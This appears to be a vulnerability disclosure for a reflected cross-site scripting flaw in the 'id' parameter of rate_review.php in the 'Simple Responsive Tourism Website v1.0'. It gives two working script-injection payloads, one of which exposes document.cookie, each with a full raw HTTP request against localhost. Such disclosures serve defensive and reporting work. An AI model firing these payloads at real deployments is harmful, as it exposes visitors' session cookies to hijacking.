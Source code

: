 # Simple Responsive Tourism Website v1.0 by oretnom23 has Cross-site scripting (reflected)

Website source address:https://www.sourcecodester.com/php/14838/simple-responsive-tourism-website-using-php-free-source-code.html

BUG_Author: LiuYi

Vulnerability File: /tourism/rate_review.php

Parameter "id" (GET), exists XSS vulnerability

Payload1:id=1"><script>alert(1111)</script>

```
GET /tourism/rate_review.php?id=1%22%3E%3Cscript%3Ealert(1111)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm
Connection: close
```

![image](https://github.com/verylazycat/picture/blob/main/verylazycat1111.png)

Payload2:id=1"><script>alert(document.cookie)</script>

```
GET /tourism/rate_review.php?id=1%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm
Connection: close
```

![image](https://github.com/verylazycat/picture/blob/main/verylazycatcookie.png)
